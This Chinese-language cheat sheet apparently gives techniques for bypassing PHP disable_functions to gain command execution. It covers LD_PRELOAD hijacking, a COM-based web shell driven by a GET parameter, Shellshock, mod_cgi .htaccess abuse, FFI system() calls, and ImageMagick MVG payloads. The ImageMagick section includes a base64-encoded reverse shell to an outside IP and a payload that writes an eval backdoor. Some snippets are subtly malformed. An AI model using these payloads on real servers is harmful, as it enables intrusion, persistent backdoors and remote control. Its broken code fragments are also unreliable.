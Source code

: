 ﻿# Bypass disable_function
## LD_PRELOAD
什么是LD_PRELOAD？

	LD_PRELOAD是Linux系统的一个环境变量，它的加载优先级最高，可以用来覆盖正常的函数库。我们可以通过LD_PRELOAD加载我们写的函数库，来覆盖系统中原有的一些函数达到执行命令的效果。AntSword中的disable_functions插件原理也是如此。
 首先我们需要一个动态加载链接.so,由.c编译利用linux指令
 `gcc -shared -fPIC test.c -o test.so`
 把test.c编译为test.so
 用它来执行system，删除环境变量LD_PRELOAD的值，劫持函数
`
__attribute__ ((__constructor__)) void angel (void){
  unsetenv("LD_PRELOAD");
 system(ls > /aim) //把输出结果重定向到目的文件
`
这里我们劫持的是c的构造函数（在加载时就执行代码）
然后使服务器执行LD_PRELOAD，常用服务器的mail功能
`mail("", "", "", "");`或`error_log(error,type,destination,headers)`
当type为1时，服务器就会把error发送到参数 destination 设置的邮件地址即`error_log("",1,"","")`然后把.so加入到LD_PRELOAD环境变量
`
putenv("LD_PRELOAD=/.so")
`
即可
## com组件
### 环境要求：
1.php.ini中已经开启com.allow_dcom、extension=php_com_dotnet.dll
2.在php/ext/里面存在php_com_dotnet.dll这个文件
利用原理：
在Windows环境中PHP中的COM()函数可以创建系统组件对象来运行系统命令。
这里我们用WScript.shell或Shell.Application

```php
<?php

$command = $_GET['cmd'];

$wsh = **new** COM('WScript.shell'); // 生成一个COM对象
Shell.Application也能

$exec = $wsh->exec("cmd /c".$command); //调用对象方法来执行命令

$stdout = $exec->StdOut();

$stroutput = $stdout->ReadAll();

echo $stroutput;

?>
```

## 利用Bash破壳（CVE-2014-6271）漏洞
### 环境要求：

Linux中Bash 版本小于等于4.3，且存在破壳漏洞
可以执行“env x='() { :;}; echo vulnerable' bash -c "echo this is a test"”来测试是否存在破壳漏洞，如果存在会输出 vulnerable this is a test
对于存在shellshock漏洞的环境下，Bash对于环境变量只是检测到函数，并且从’{‘开始执行，但是并没有在’}'后停止，也就是说定义在函数体外shell命令也会执行，所以env x='() { :;}; echo vulnerable' 输出了vulnerable。
### 漏洞成因：
bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。核心的原因在于在输入的过滤中没有严格限制边界，没有做合法化的参数判断。
bash自定义函数，只需要函数名就能够调用该函数。

 

```bash
   funtion ShellShock {
     echo "Injection"
    } 
    ShellShock   #调用这个函数
```

这个时候的Bash的环境变量：

```bash
KEY = ShellShock
VALUE = () { echo Injection; }
```
 如果环境变量的值以字符"() {"开头，那么这个变量就会被当作是一个导入函数的定义（Export），这种定义只有在shell启动的时候才生效。

```bash
➜  ~ export ShellShock="() { echo Hello ShellShock; }"
➜  ~ ShellShock
bash:ShellShock: command not found
➜  ~ bash
bash-4.1$ ShellShock
Hello ShellShock
bash-4.1$ 
```
## Apache Mod CGI
### 漏洞原理

> 任何具有MIME类型application/x-httpd-cgi或者被cgi-script处理器处理的文件都将被作为CGI脚本对待并由服务器运行，它的输出将被返回给客户端。可以通过两种途径使文件成为CGI脚本，一种是文件具有已由AddType指令定义的扩展名，另一种是文件位于ScriptAlias目录中.
> 
> apache在配置cgi后可以用ScriptAlias指令指定一个目录,指定的目录下面便存放可执行的cgi程序.若是想要增加文件夹也可执行cgi程序,则可在apache主配置文件中做如下设置
> 
> <Directory 路径>
> 
> Options +ExecCGI
> 
> </Directory>
> 
> 例如
> 
> <Directory /var/www/html/>
> 
> Options +ExecCGI                      #这便是允许cgi程序执行
> 
> </Directory>
> 
> 当然,若是想临时允许一个目录可以执行cgi程序并且使得服务器将自定义的后缀解析为cgi程序,则可以在目的目录下使用htaccess文件进行配置,如下,
> 
> Options +ExecCGI    
> 
> AddHandler .ext
> 
> 比如.nb后缀.
> 
> Options +ExecCGI
> 
> AddHandler cgi-script .nb
> 
### 实现步骤
准备.htaccess文件
Options +ExecCGI
AddHandler cgi-script .xxx
执行文件 shell.xxx
里面写命令
**注意**要修改文件权限为0777
## FFI组件
php>7.4，开启了FFI扩展ffi.enable=true，我们可以通过FFI来调用C中的system进而达到执行命令的目的

```bash
<?php
$ffi = FFI::cdef("int system(const char *command);");
$ffi->system("whoami >/tmp/1");
echo file_get_contents("/tmp/1");
@unlink("/tmp/1");
?>
```
## ImageMagick

`
/etc/ImageMagick/delegates.xml
<delegate decode="https" command="&quot;curl&quot; -s -k -o &quot;%o&quot; &quot;https:%M&quot;"/>
&quot; 是 " 的html实体编码 
`

解析https图片的时候，使用了curl命令将其下载，%o是curl输出的文件名，%M是远程的URL路径

command中 %M 直接拼接。漏洞产生，传入系统的system函数，payload只需使用反引号或闭合双引号，执行任意命令
构造.mvg格式的图片，不用改后缀，ImageMagick会根据其内容识别为mvg图片，图片内容（POC）如下

 

```bash
   无回显 可利用dnslog查看
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.1/1.jpg"|whoami")'
    pop graphic-context
     
    反弹shell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://127.0.0.0/1.jpg"|echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEuMS4xLjEvODg4OCAwPiYx== | base64 -d| bash ")'
    pop graphic-context
     
    写shell
    push graphic-context
    viewbox 0 0 640 480
    fill 'url(https://example.com/1.jpg"|echo \'<?php eval($_POST[\'ant\']);?>\' > shell.php")'
    pop graphic-context
```




